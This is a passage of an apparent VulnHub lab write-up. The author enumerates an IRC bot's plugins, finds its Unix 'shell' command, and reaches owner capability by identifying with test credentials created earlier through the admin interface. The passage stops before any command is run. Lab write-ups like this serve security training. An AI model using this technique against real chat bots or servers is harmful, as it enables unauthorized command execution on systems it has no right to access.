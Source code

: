 So let's join the `#vulnhub` channel with `/join #vulnhub`. We are seeing a user named `vulnhub-bot` which seems to be the bot we activated on the admin interface.

We can now query the user to start a private conversation with it by issuing `/query vulnhub-bot`. After writing something we get the message

```
vulnhub-bot: Error: "test" is not a valid command.
```

By trying `help` we get a help menu:

```
21:21:00   -- | vulnhub-bot: (help [<plugin>] [<command>]) -- This command gives a useful description of what <command> does. <plugin> is only necessary if the command is in more than one plugin. You may also
              | want to use the 'list' command to list all available plugins and commands.
```

So let's execute the mentioned `list` command:

```
21:21:13   -- | vulnhub-bot: Admin, AutoMode, Channel, Config, Misc, NickAuth, Owner, Unix, User, and Utilities
```

By looking at all the plugins in detail a `list Unix` reveals a `shell` method:

```
21:22:20   -- | vulnhub-bot: call, crypt, errno, fortune, pid, ping, ping6, progstats, shell, spell, sysuname, sysuptime, and wtf
```

So let's try the `shell` command:

```
22:25:16 root | Unix shell
22:25:17   -- | vulnhub-bot: Error: You don't have the owner capability. If you think that you should have this capability, be sure that you are identified before trying again. The 'whoami' command can tell you
              | if you're identified.
```

Crap, so `whoami`?

```
21:22:44 root | whoami
21:22:44   -- | vulnhub-bot: I don't recognize you. You can message me either of these two commands: "user identify <username> <password>" to log in or "user register <username> <password>" to register.
```

Ok let's try the credentials from the user we added in the admin dialog:

```
21:23:16 root | user identify test test
21:23:16   -- | vulnhub-bot: The operation succeeded.
21:23:19 root | shell
21:23:20   -- | vulnhub-bot: (shell <command to call with any arguments>) -- Calls any command available on the system using the shell specified by the SHELL environment variable, and returns its output.
              | Requires owner capability. Note that being restricted to owner, this command does not do any sanity checking on input/output. So it is up to you to make sure you don't run anything that will
              | spamify your channel or that will bring your (1 more message)
```

